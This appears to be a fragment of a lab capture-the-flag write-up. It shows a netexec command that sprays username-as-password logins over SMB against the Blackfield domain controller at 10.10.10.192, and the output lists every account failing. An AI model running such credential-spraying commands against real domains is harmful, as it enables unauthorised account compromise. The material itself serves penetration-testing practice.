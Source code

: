 `netexec smb 10.10.10.192 -u ./domain_users.txt -p ./domain_users.txt --no-bruteforce --continue-on-success`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:Administrator STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\DC01$:DC01$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\audit2020:audit2020 STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\support:support STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\svc_backup:svc_backup STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\lydericlefebvre:lydericlefebvre STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC01$:PC01$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC02$:PC02$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC03$:PC03$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC04$:PC04$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC05$:PC05$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC06$:PC06$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC07$:PC07$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC08$:PC08$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC09$:PC09$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC10$:PC10$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC11$:PC11$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC12$:PC12$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\PC13$:PC13$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\SRV-WEB$:SRV-WEB$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\SRV-FILE$:SRV-FILE$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\SRV-EXCHANGE$:SRV-EXCHANGE$ STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\SRV-INTRANET$:SRV-INTRANET$ STATUS_LOGON_FAILURE
```
❌
